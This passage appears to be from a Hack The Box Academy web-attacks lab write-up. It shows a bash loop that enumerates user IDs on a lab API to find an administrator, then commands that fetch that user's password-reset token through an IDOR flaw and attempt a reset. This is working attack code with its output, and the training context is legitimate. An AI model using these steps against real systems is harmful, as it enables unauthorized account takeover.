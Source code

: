 ![Burp Suite - IDOR GET (`token`)](./assets/screenshots/web_attacks_skills_assessments_burpsuite_idor_get_token.png)

![Burp Suite - IDOR POST (`uid&token`)](./assets/screenshots/web_attacks_skills_assessments_burpsuite_idor_post_uidtoken.png)

```shell
#!/bin/bash

url="http://94.237.57.135:36794/api.php/user"

for i in {1..100}; do
		curl -s "$url/$i" | grep -i "admin"
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ ./enumerate_admin.sh

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ curl http://94.237.57.135:36794/api.php/token/52

{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ curl http://94.237.57.135:36794/reset.php -d 'uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Test123'

Access Denied ❌
```
